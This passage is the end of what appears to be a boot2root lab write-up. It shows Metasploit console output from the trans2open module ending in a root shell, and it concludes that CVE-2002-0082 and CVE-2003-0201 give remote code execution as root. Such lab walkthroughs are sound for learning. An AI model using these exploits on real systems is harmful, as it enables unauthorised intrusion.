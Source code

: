 [-] Invalid session identifier: 1
msf exploit(trans2open) > 
[-] Meterpreter session 1 is not valid and will be closed
whoami
[*] exec: whoami

root
{% endhighlight %}

## Conclusion
A pretty straight forward boot2root vm, both CVE-2002-0082 and CVE-2003-0201 give us RCE as root.